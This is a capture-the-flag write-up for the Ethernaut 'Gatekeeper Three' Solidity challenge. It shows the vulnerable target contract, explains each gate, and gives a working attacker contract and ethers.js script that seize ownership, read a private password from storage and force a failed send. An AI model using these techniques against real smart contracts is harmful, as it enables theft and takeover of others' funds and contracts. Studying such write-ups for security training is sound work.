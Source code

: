 # Ethernaut: 28. Gatekeeper Three

> Cope with gates and become an entrant.

**Objective of CTF:**

- Make it past the gatekeeper and register as an entrant to pass this level.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
  GatekeeperThree public target;
  address public trick;
  uint private password = block.timestamp;

  constructor(address payable _target) {
    target = GatekeeperThree(_target);
  }

  function checkPassword(uint _password) public returns (bool) {
    if (_password == password) {
      return true;
    }
    password = block.timestamp;
    return false;
  }

  function trickInit() public {
    trick = address(this);
  }

  function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
      target.getAllowance(password);
    }
  }
}

contract GatekeeperThree {
  address public owner;
  address public entrant;
  bool public allow_enterance = false;
  SimpleTrick public trick;

  function construct0r() public {
    owner = msg.sender;
  }

  modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
  }

  modifier gateTwo() {
    require(allow_enterance == true);
    _;
  }

  modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }

  function getAllowance(uint _password) public {
    if (trick.checkPassword(_password)) {
      allow_enterance = true;
    }
  }

  function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
  }

  function enter() public gateOne gateTwo gateThree returns (bool entered) {
    entrant = tx.origin;
    return true;
  }

  receive() external payable {}
}
```

We must pass 3 obstacles (gates) that are implemented as modifiers:

1. A simple ownership & contract check.
2. An `allow_enterance` check.
3. An intentionally-failing `payable` call.

## Gate 1

To get past this gate, we need a middleman contract that is also the owner for the target contract. It is very simple to become the owner here, just call `construct0r`! That is not a constructor function in disguise or something, it is just a function public to everyone, allowing anyone to become the owner. Believe it or not, things like this happen in real contracts. So, we simply have to call `construct0r` from within our attacker contract.

## Gate 2

Gate 2 requires `allow_enterance` to be true. We see that `getAllowance` will allow that given the correct password. We can read the storage variables, even if they are private, as we have done before in the previous challenges. So to get allowance, just read the password variable from storage of `SimpleTrick`, and provide it to the function.

## Gate 3

Assuming that contract has enough balance, all we have to do is fail the receive ethers. How do we do that? Simple: just revert intentionally within your `receive` function.

## Proof of Concept

Here is the attacker contract:

```solidity
contract GatekeeperThreeAttacker {
  function enter(address payable _target, uint _password) external {
    GatekeeperThree target = GatekeeperThree(_target);

    // become owner
    target.construct0r();

    // get allowance
    target.getAllowance(_password);
    require(target.allow_enterance(), "not allowed");

    bool res = target.enter();
    require(res, "failed!");
  }

  receive() external payable {
    revert("nope");
  }
}
```

The code to execute our attack is straightforward:

```typescript
// deploy attacker
const attackerContract = await ethers.getContractFactory('GatekeeperThreeAttacker', attacker).then(f => f.deploy());

// get password from SimpleTrick storage
const password = await ethers.provider.getStorageAt(await contract.trick(), ethers.utils.hexValue(2));

// enter!
await attackerContract.connect(attacker).enter(contract.address, password);
```
